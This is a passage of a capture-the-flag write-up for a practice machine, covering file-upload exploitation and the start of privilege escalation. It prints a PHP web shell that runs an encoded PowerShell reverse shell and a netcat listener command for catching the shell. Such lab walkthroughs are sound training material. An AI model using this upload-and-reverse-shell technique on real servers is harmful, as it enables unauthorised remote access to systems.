 Nothing we found.

**Web Login:**

* Successfully logged in using discovered credentials at `http://internal.analysis.htb/employees/login.php`.

#### Exploiting File Upload

* Found and exploited a file upload function in the admin panel.
* Uploading testing PHP code.&#x20;

```php
<?php echo "<h1>HELLO \;</h1>";?>
```

<figure><img src="https://i.imgur.com/OxMqLD3.png" alt=""><figcaption><p><strong>EXPLOIT FILE UPLOAD 1</strong></p></figcaption></figure>

**It's worked:**

![EXPLOIT FILE UPLOAD 1](https://i.imgur.com/ASKqkDW.png)

**Gaining reverse shell**

```php
// Uplaod this but make sure you put ur PS script
<?php system("powershell -e <PS script encoded with BASE64>")?>
// You can use https://www.revshells.com/
```

&#x20;And fire up your netcat and visit the uploaded shell.

<figure><img src="https://i.imgur.com/CfEukvz.png" alt=""><figcaption><p><strong>EXPLOIT FILE UPLOAD 2</strong></p></figcaption></figure>

**netcat**

```bash
rlwrap -cAr nc -lvnp <PORT>
```

**reverse shell**  Gained shell access as `svc_web`. And the user flag was in owned by `jdoe` user.

<figure><img src="https://i.imgur.com/M3rmCJY.png" alt=""><figcaption><p><strong>GOT REVERSE SHELL</strong></p></figcaption></figure>

***

## III => Privilege Escalation

**Objective:** To escalate privileges and gain higher level access on the system.

**Techniques & Tools:**

1. **Initial Lateral Movement:**
   * Initially gained shell access as `svc_web`.
   * The user flag was under `jdoe`'s ownership.
2. **PowerShell Script for Privilege Escalation:**
   * Utilized the [PrivescCheck PowerShell script](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1). **Upload the PS script to the machine**
